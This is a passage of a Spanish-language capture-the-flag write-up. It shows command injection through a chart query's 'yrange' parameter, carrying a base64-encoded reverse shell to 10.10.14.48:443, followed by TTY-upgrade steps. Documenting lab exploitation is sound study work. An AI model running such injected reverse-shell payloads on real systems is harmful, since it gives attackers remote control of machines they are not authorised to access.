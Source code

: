 Como vemos por el puerto de escucha aparece una bash 

Ahora la ida es poner en el exploit esta cadena que hemos visto


```python
#recordar suistituir espacios por +
# no hemos dejado los espacios que solemos poner entre los |
# recordarq ue tienes que ejecutar desde el sitio donde tienes el exploit /maquinas/admire/exploits

python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Vemos que de esta forma no escuchamos nada, así que miramos el ascci del + que es 2B y lo sustuituimos con el %delante

El problema viene creo porque dentro de la cadena ya hay + independientemente de los espacios por lo que esos espacios internos son los que cambiamos por 2B

```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC80NDMgMD4mMScK|base64+-d|bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Recordar que hay que volver a hacer los paso...

![](2022-06-12-18-43-47.png)

Ya tenemos una consola operativa

# Preparación de la bash una vez detro del objetivo

Si ponemos tty miramos si estamos dentro. Si no hacemos estas cosas cuando hagamos control+c se nos va fuera, ademas que nos gustaría tener cierto dominio la bash

```bash
script /dev/null -c bash

#Con control+z dejamos de escuchar el puerto

stty raw -echo;fg     
# Con esto hemos conseguido reiniciar la configuración de la terminal en bash
reset xterm

#control l para limpiar no funciona pero porque puede valer diferente a xterm
export TERM=xterm

#miramos cuando vale la variable shell y hacemos que valga una bash

export SHELL=/bin/bash

#ver el número de columnas y filas
stty size

#poner el número de filas y columnas  como en mi pc 61 236
```